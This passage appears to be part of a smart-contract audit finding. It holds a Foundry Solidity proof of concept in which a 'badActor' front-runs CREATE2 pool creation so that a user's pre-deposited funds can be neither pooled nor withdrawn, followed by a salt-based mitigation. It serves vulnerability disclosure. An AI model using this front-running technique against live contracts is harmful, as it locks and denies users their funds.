 ```solidity

    address contractDeployer = address(new Deployer());
    
    address poolBeacon = address(new UpgradeableBeacon(address(new Pool()), governance));
    address bondBeacon = address(new UpgradeableBeacon(address(new BondToken()), governance));
    address levBeacon = address(new UpgradeableBeacon(address(new LeverageToken()), governance));
    address distributorBeacon = address(new UpgradeableBeacon(address(new Distributor()), governance));

    poolFactory = PoolFactory(Utils.deploy(address(new PoolFactory()), abi.encodeCall(
      PoolFactory.initialize, 
      (governance, contractDeployer, ethPriceFeed, poolBeacon, bondBeacon, levBeacon, distributorBeacon)
    )));

    vm.stopPrank();
  }

  function testAssetsLocked() public {

    vm.startPrank(governance);
    preDeposit.setBondAndLeverageAmount(BOND_AMOUNT, LEVERAGE_AMOUNT);

    vm.startPrank(user1);
    reserveToken.approve(address(preDeposit), DEPOSIT_AMOUNT);
    preDeposit.deposit(DEPOSIT_AMOUNT);
    
    vm.warp(block.timestamp + 8 days); // After deposit period  

    vm.startPrank(badActor);
    reserveToken.approve(address(poolFactory),type(uint256).max);
    poolFactory.createPool(params, 1, 1, 1,"bondName","bondSymbol","leverageName","leverageSymbol", true);

    vm.startPrank(user1);
    vm.expectRevert();
    preDeposit.createPool();

    vm.expectRevert();
    preDeposit.withdraw(DEPOSIT_AMOUNT);
  }

}

```

### Mitigation

To mitigate this issue it is necessary to add `msg.sender` as `salt` parametr to address generation during create2.